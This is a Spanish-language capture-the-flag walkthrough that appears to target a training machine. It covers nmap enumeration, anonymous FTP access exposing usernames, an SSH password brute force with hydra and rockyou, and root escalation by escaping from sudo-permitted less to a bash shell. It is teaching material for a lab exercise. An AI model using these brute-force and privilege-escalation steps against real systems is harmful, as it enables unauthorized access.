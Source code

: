 #Linux #Linux 
### namp
```python 
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp   open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1002/tcp filtered windows-icfw
1057/tcp filtered startron
2135/tcp filtered gris
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### puerto 21 ftp abierto y missconfigure con anonymous

tenemos un archivo
```css 
	From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```
este archivo nos da 3 usuarios 
```java
	Username: Amy
	Username: Jake
	Username: holt
```

### aplicamos fuerza bruta con hydra 
```python
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh
```
![[Pasted image 20231107001617.png]]
### ingresamos por ssh con las credenciales que hemos conseguido
![[Pasted image 20231107002238.png]]
en la rita /home/holt podemo conseguir la flag user.txt

### vamos a escalar privilegios
buscaremos permisos SUID
```java 
	find / -perm -u=s -type f 2>/dev/null
```
podemos ver un direcctorio /usr/bin/less hacemos sudo -l
![[Pasted image 20231107005512.png]]

### el usuario jake puede ejecutar todo con lo que quiera con (ALL) /usr/bin/less con el directorio less sin proporcionar contraseña NOPASSWD

```python 
	sudo less /etc/profile
```
debido a que podemos ejecutar less como sudo. podemos crear un archivo de texto y seguido de esto podemos decirle
```python
	!/bin/bash
```
### WE ARE ROOT